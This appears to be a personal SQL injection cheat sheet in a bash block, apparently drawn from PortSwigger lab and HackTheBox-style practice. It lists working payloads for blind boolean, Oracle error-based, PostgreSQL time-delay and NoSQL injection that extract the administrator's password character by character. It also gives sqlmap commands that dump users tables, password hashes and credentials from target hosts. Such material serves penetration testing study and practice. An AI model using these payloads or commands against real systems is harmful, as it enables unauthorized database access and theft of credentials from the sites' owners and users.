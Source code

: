```bash

TrackingId =u5YD3PapBcR4lN3e7Tj4' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm #This query checks to narrow the first letter of the 'Admin' password

# Blind Oracle sqli (https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
 TrackingId=Vqg7K1mFWH8hNMMb'||(SELECT+CASE+WHEN+SUBSTR(password,§1§,1)='§a§'+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users+WHERE+username%3d+'administrator')||'  # Used Burp Cluster bomb to iterate through the length of the password and simplelist.

 #Time-Delay SQLi

 TrackingId=jSeXZLJoesz7M9ZH'||pg_sleep(10)--   #The key here is to conactenat the normal query w/ the sleep payload as it is generally processed synchronously by the application.

TrackingId='%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--   # Validate the payload still works for the delay.

TrackingId='%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--; # Check for 'administrator' in the 'users' table

TrackingId='%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password) >19)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--  # Check length of PW.

TrackingId='%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--  #Use Sniper to retrieve PW.

# Post
./sqlmap.py -r search-test.txt -p tfUPass  #<-p> is the parameter to test in the file
[From Burp to confirm] POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5);+--+- HTTP/1.1

sqlmap -r post.login.req --threads=1 --time-sec=1 --level=5 --risk=3 --dbms=mssql -T users -C username,password_hash --random-agent --batch --dump

# Get
sqlmap -u "http://10.11.1.111/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.11.1.111 --dbms=mysql --crawl=3

# Full auto - THE GOOD ONE
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
# Columns
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --columns -T users -D admin
# Values
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --dump -T users -D admin

sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords

sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5
# NoSQL
' || 'a'=='a
mongodbserver:port/status?text=1

#in URL
username[$ne]=toto&password[$ne]=toto

```